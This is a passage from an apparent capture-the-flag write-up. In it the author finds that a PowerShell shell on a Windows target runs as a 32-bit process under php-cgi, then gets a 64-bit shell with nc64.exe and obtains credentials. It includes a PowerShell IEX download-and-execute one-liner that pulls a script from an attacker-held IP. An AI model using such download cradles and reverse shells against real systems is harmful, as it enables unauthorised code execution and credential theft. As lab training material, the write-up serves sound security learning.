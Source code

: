 My shell loads as a 32-bit process:

```

PS C:\> [Environment]::Is64BitProcess
False

```

That’s because `php-cgi` is running as a 32-bit process, as shown by the `Get-32BitProcess` function as defined [here](https://stackoverflow.com/a/43773871):

```

PS C:\> IEX(New-Object Net.WebClient).downloadString('http://10.10.16.17:8888/process_arc.ps1')
PS C:\>Get-32BitProcess

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName          
-------  ------    -----      -----     ------     --  -- -----------          
     58       4     2240       3524       0.00   2668   0 cmd                  
    435      29     8636      29692       0.69   6984   1 OneDrive             
    196      12     3376       9804       0.02    936   1 OneDriveStandalone...
    116      14     6296      11844       0.17   6972   0 php-cgi              
    664      47    48864      60688       3.31   2764   0 powershell  

```

Thanks to InvertedClimbing for the help on that one.

I played with things to try to force it into a 64-bit process (without using Metasploit to migrate), but was unable to. Eventually, I used `nc64.exe` to get a 64-bit shell, and was able to get the credentials. It was a good lesson learned to always check the arch of your shell process.